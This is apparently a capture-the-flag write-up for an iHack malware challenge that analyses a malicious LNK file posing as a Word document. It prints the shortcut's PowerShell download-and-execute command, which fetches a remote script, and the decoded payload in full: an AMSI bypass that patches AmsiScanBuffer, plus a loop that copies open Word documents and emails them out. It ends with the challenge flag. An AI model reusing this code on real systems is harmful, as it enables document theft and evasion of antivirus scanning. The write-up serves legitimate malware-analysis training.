

# LNK

**Challenge Description:** Recently, many of our company's sensitive documents were stolen by someone. Can you look into this malware? It might be the initial access of the malware of the attacker. We believe the attacker have hidden passwords for their malware.

**Flag Format:** `ihack{MD5}`

The `LNK` file appears to be a `.DOCX` that masquerades as a shortcut file. When performing basic file checks to carve for metadata, the following payload was discovered:

```
┌──(kali💀JesusCries)-[~/Desktop/iHack/malware]
└─$ exiftool Latest\ Kenyataan\ Parlimen.docx 
ExifTool Version Number         : 12.40
File Name                       : Latest Kenyataan Parlimen.docx
Directory                       : .
File Size                       : 2.5 KiB
File Modification Date/Time     : 2022:12:08 08:00:32-05:00
File Access Date/Time           : 2022:12:10 03:12:33-05:00
File Inode Change Date/Time     : 2022:12:10 06:45:16-05:00
File Permissions                : -rw-r--r--
File Type                       : LNK
File Type Extension             : lnk
MIME Type                       : application/octet-stream
Flags                           : IDList, LinkInfo, RelativePath, WorkingDir, CommandArgs, IconFile, Unicode
File Attributes                 : (none)
Create Date                     : 1601:01:16 04:55:36-04:56
Access Date                     : 1601:01:16 04:55:36-04:56
Modify Date                     : 1601:01:16 04:55:36-04:56
Target File Size                : 0
Icon Index                      : (none)
Run Window                      : Show Minimized No Activate
Hot Key                         : (none)
Target File DOS Name            : cmd.exe
Drive Type                      : Fixed Disk
Volume Label                    : 
Local Base Path                 : C:\Windows\System32\cmd.exe
Relative Path                   : ..\..\..\..\..\Windows\System32\cmd.exe
Working Directory               : C:\Windows\System32
Command Line Arguments          : /c powershell "IEX(New-Object Net.WebClient).downloadString('https://gist.githubusercontent.com/0xAFFMR/8f7f4579de75cf111a6c0f53ceff4f1f/raw/66986a5c79ca1dbe3629311e6400751c2fba89ba/ihack.ps1')"
Icon File Name                  : C:\Program Files\Microsoft Office\root\Office16\WINWORD.EXE
```

Navigating to the URL `https[://]gist[.]githubusercontent[.]com/0xAFFMR/8f7f4579de75cf111a6c0f53ceff4f1f/raw/66986a5c79ca1dbe3629311e6400751c2fba89ba/ihack[.]ps1`, it appears to be base-64 encoded.



Decode the base64 repeatedly with UTF-16LE until the following payload appears:

```
Add-Type -AssemblyName System.Security

##### GLOBAL #####
$Content = (New-Object Net.Webclient).DownloadString('https://gist.githubusercontent.com/0xAFFMR/da298d823c184ae6c12c940562049978/raw/38deebff622eed7616d27009c690c4d86668f3a1/sec')
[string[]]$Bytes = $Content.Split("`n")
$ContentX = [Security.Cryptography.ProtectedData]::Protect($Bytes, $Null, [Security.Cryptography.DataProtectionScope]::LocalMachine)
$docsSent =  New-Object Collections.Generic.List[String]
$appData = [Environment]::GetFolderPath('ApplicationData') + "\Microsoft\Windows\Recent"
$temp = [Environment]::GetFolderPath('ApplicationData')
$compName = $env:computername | Select-Object
##################

# AMSI ByPass
function AmsiBypass {
$Win32 = @"

using System;
using System.Runtime.InteropServices;

public class Win32 {

    [DllImport("kernel32")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);

    [DllImport("kernel32")]
    public static extern IntPtr LoadLibrary(string name);

    [DllImport("kernel32")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);

}
"@

Add-Type $Win32

$LoadLibrary = [Win32]::LoadLibrary("am" + "si." + "dll")
$Address = [Win32]::GetProcAddress($LoadLibrary, "Am" + "si" + "Scan" + "Buf" + "fer")
$p = 0
[Win32]::VirtualProtect($Address, [uint32]5, 0x40, [ref]$p)
$Patch = [Byte[]] (0xB8, 0x57, 0x00, 0x07, 0x80, 0xC3)
[System.Runtime.InteropServices.Marshal]::Copy($Patch, 0, $Address, 6)
}


# Send Email function
function Send-Email {
    $From = "hackerman@ihack.com"
    $To = "hackerman@ihack.com"
    $Attachment = $args[0]
    $Subject = "Email Subject"
    $Body = "UserDomain: " + $env:UserDomain + " ComputerName: " + $env:ComputerName + " UserName: " + $env:UserName + " Attachment: " + [io.path]::GetFileName($args[0])
    $SMTPServer = "smtp.gmail.com"
    $SMTPPort = "587"
    $User = "UserName"
    $SecRet = ConvertTo-SecureString -String $ContentX -AsPlainText -Force
    $Credential = New-Object -TypeName "System.Management.Automation.PSCredential" -ArgumentList $User, $SecRet
    Send-MailMessage -From $From -to $To -Subject $Subject `
    -Body $Body -SmtpServer $SMTPServer -port $SMTPPort -UseSsl `
    -Credential $Credential -Attachments $Attachment
}


# Check if file locked
function Test-FileLock {
  param (
    [parameter(Mandatory=$true)][string]$Path
  )

  $oFile = New-Object System.IO.FileInfo $Path

  if ((Test-Path -Path $Path) -eq $false) {
    return $false
  }

  try {
    $oStream = $oFile.Open([System.IO.FileMode]::Open, [System.IO.FileAccess]::ReadWrite, [System.IO.FileShare]::None)

    if ($oStream) {
      $oStream.Close()
    }
    return $false
  } catch {
    # file is locked by a process.
    return $true
  }
}


# Check lnk file origin
function Get-ShortcutsTarget{
    $Shortcuts = Get-ChildItem -Recurse $appData -Include *.doc*.lnk
    $Shell = New-Object -ComObject WScript.Shell
    foreach ($Shortcut in $Shortcuts)
    {
        $Properties = @{
        ShortcutName = $Shortcut.Name;
        ShortcutFull = $Shortcut.FullName;
        ShortcutPath = $shortcut.DirectoryName
        Target = $Shell.CreateShortcut($Shortcut).targetpath
        }
        New-Object PSObject -Property $Properties
    }

[Runtime.InteropServices.Marshal]::ReleaseComObject($Shell) | Out-Null
}


AmsiBypass
# Function as Main
Do {
    
    # Check If WinWord process is open
    $isOpen = get-process WINWORD -ErrorAction SilentlyContinue | select -expand id

    # while WinWord is open 
    while($isOpen) 
    {
        $Output = Get-ShortcutsTarget
        foreach ($Target in $Output)
        {
            $isLocked = Test-FileLock $Target.Target
            if ($isLocked -AND -NOT $docsSent.Contains($Target.Target))
            {
                $destination = $temp + "\" + [io.path]::GetFileName($Target.Target)
                copy-Item -Recurse $Target.Target -passthru -Destination $destination
                Send-Email $destination
                $docsSent.Add($Target.Target)
                Remove-Item -Path $destination -Force
            }
        }

        sleep 5
        $isOpenTemp = get-process WINWORD -ErrorAction SilentlyContinue | select -expand id
        if ($isOpenTemp -ne $isOpen)
        {
            $docsSent.Clear()
            $isOpen = $isOpenTemp
        }

    }

    $docsSent.Clear()
    sleep 5
} while ($true)
```

The flag is located in the URL `https[://]gist[.]githubusercontent[.]com/0xAFFMR/da298d823c184ae6c12c940562049978/raw/38deebff622eed7616d27009c690c4d86668f3a1/sec`, then convert the decimal values to ASCII characters.

**Flag:** `ihack{287991bc0a634b67a92c2c5881d2abff}`